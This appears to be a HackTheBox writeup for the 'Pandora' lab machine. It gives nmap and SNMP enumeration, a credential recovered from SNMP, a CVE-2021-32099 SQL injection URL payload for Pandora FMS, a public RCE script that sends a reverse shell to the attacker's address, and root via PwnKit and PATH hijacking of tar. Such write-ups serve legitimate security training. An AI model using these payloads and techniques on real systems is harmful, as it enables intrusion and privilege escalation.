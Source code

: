 ```yaml
---
title: "Pandora - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Pandora
![](https://kar0nx.github.io/assets/images/writeup/6ac0e76002774bbfac92b0dbc86cb6af.png)
## Reconnaissance

IP: 10.10.11.136
## NMAP

```
nmap -T4 -p- -A 10.10.11.136
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-12 22:00 UTC
Nmap scan report for 10.10.11.136
Host is up (0.028s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   27.01 ms 10.10.14.1
2   27.50 ms 10.10.11.136

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.32 seconds
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912163423.png)

also 161 snmp available
## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912163119.png)

we can add panda.htb to /etc/hosts

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912163142.png)

## SNMP

starting with double check:

```
snmp-check 10.10.11.136 -c public

snmpbulkwalk -v2c -c public 10.10.11.136 | tee snmp.out
```

as always starting with enumerating processes and I found user and password

```
cat snmp.out | grep iso.3.6.1.2.1.25.4.2.1.5
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912163805.png)

snmp-check also found it very clearly

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912163910.png)

daniel  HotelBabylon23
and now we can connect via ssh 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912164040.png)

## Easy way to beat

Linpeas found pkexec suid so quick PwnKit and we have root access, however it cannot be proper way, because me as noob finished box in 10min with linpeas running 5min:D

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912170055.png)

## Gaining Access

Ok let's back to linpeas and we see pandora.panda.htb on localport 80 running by matt

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912171614.png)

First I tried to read config file but Permission Denied

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912171707.png)

ok quick port forward to see localhost 80

```
ssh -L 1337:127.0.0.1:80 daniel@10.10.11.136
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912172308.png)

and now navigating to browser we see new page 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912172403.png)

on bottom we see version v7.0NG.742_FIX_PERL2020
Let's search for public exploits

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912172448.png)

Using searchsploit I found SQL injection and RCE (however for RCE we must be authenticated)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912172814.png)

This is CVE-2021-32099 searching for poc I found 
https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/

Poc: https://github.com/ibnuuby/CVE-2021-32099?source=post_page-----50824276db14---------------------------------------

pasting this in new tab 

```
http://127.0.0.1:1337/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20SgGO
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912173449.png)

and we are authenticated as admin:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912173932.png)

Now we can read found RCE CVE-2020-13851
https://www.exploit-db.com/exploits/50961
In this exploit we need username and password or cookie
Grab cookie form firefox memory and run script

```
python3 50961.py -t 127.0.0.1 1337 -p 50tvkuu3s0o58vimrhnh7t2h9o -s 10.10.14.8 443
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912174647.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912174709.png)

upgrade TTY shell and grab user.txt 

```
python3 -c 'import pty; pty.spawn ("/bin/bash")'
```

## Privilege Escalation

Returning to my linpeas scan I found that now we can use SUID pandora_backup

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912175053.png)

When attempting to run this binary I got error, searching google I found bypassing command 
```
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
```
Later checking writeup I found you can bypass it via creating id_rsa

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912175734.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912180614.png)

Great now there is no path given for tar file, so If we create malicious tar and add it to path, script first will execute it as root.

```
echo $PATH
export PATH=/dev/shm:$PATH
echo $PATH
cd /dev/shm
echo "/usr/bin/bash -p" > tar
chmod +x tar
```

and execute our SUID binary will grant us root shell

```
pandora_backup
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250912180347.png)